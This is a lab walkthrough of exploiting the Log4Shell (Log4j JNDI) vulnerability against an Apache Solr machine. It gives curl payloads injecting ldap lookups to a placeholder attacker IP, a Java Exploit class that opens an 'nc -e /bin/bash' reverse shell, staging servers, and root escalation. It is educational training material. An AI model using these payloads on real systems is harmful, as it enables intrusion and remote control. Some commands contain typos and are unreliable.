Log4j (Log4Shell) Vulnerability – Overview

## Introduction

Apache Log4j is a widely used Java-based logging framework that allows applications to record events such as user activity, errors, and system operations. It is commonly integrated into web applications and backend services.

In December 2021, a critical vulnerability known as Log4Shell was discovered in Log4j. This vulnerability allows attackers to execute arbitrary code on a vulnerable server through specially crafted input.

## ROOT CAUSE 

Log4j supports a feature called JNDI (Java Naming and Directory Interface), which allows it to retrieve external resources dynamically.

When Log4j processes log messages, it evaluates expressions in the format:

${jndi:<protocol>://<server>/<resource>}

If user-controlled input is logged without proper sanitization, an attacker can inject a malicious JNDI lookup.



## LAB OVERVIEW 

Lets start with an Nmap Scan 



We found three open ports , lets perform service version detection and default script scan on them 



Seems like Apache Solr is running on port 8983



Lets visit the site running on port 8983



Lets download the task file and visit it 





the URL endpoint that you have just uncovered needs to be prefaced with the solr/ prefix when viewing it from the web interface 

Therefore visit http://MACHINE_IP:8983/solr/admin/cores



this implies that the changes in the path /solr/admin/cores will refelct in the params field 

Therefore executing a payload will get stored or processed by the params field

lets set up a nc listener 



execute this payload : curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:9999\}'



now check our nc listener 



We successfully got the reverse shell 

but it seems like we cant able to execute any commands 

We will utilize a open-source and public utility to stage an "LDAP Referral Server". This will be used to essentially redirect the initial request of the victim to another location, where you can host a secondary payload that will ultimately run code on the target

lets clone this repo 



install maven 





now lets set up the Ldap server 

command : curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'



now lets java payload :

public class Exploit {

    static {
    
        try {
        
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
            
        } catch (Exception e) {
        
            e.printStackTrace();
            
        }
    }
}

replace it with our attacker ip 

and complile it 



An file name Exploit.class has been created 

now set up an python server 

command: python3 -m hhtp.server -p 8000 --bind <attacker_ip>



set up a reverse shell on port which is specified on your java exploit 



Now lets run this command : curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'



We successfully got the reverse shell 



run sudo -l

seems like we need NOPASSWD for running any commands 

therefore escalte to root 



We successfully completed all the tasks in order to complete this machine 

-------------------------------------------------------------------------------------------------------
